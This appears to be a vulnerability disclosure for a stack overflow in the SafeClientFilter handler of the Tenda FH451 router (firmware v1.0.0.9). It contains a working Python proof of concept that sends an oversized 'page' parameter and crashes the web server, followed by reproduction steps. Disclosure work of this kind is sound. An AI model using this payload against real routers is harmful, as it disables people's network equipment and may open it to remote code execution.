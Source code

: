 # Stack Overflow Vulnerability in Tenda FH451 Router (v1.0.0.9) – SafeClientFilter Component
**Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd.
**Affected Firmware**: [Download Link](https://tenda.com.cn/material/show/101629)
**Vulnerability URL**: `http://192.168.200.1:80/goform/SafeClientFilter`
**Vulnerability File**: `/bin/httpd`

## Vulnerability Description

Through code auditing, a critical security risk has been identified in the `SafeClientFilter` routing function (Line 35) . 

![image-20250522110500362](../image-20250522110500362.png)

Specifically, the program retrieves the input parameter "page" but lacks proper validation for its numerical range (Line 39).

![image-20250522110316779](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110316779.png)

Cross-referenced to the function `sub_64EAC`, with attention to lines 44 and 47.

![image-20250522110610289](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110610289.png)

The path of the webpage where the vulnerability occurs is known to be `goform/SafeClientFilter`.

## PoC 

```python
import requests

url = "http://192.168.200.1:80/goform/SafeClientFilter"

payload = {
   'page': b'a'*(0x100000)
}

res = requests.post(url=url, data=payload)
print("Status Code:", res.status_code)
print("Response:", res.text)
```

## Reproduction Steps

**1. Environment Setup**:
Simulate the router firmware using QEMU

!![image-20250522110739954](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110739954.png)

**2. Router Initialization**:
Ensure the router is running and accessible via `http://192.168.200.1`.

![image-20250522110755361](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110755361.png)

**3. Exploit Execution**:
Run the PoC script. The router will crash, rendering the web interface inaccessible.



![image-20250522110943875](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110943875.png)

![image-20250522111000926](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522111000926.png)



The router has crashed, and the web interface is also inaccessible.

## Impact 

Remote attackers can exploit this vulnerability to crash the router (`httpd` process) or potentially execute arbitrary code.
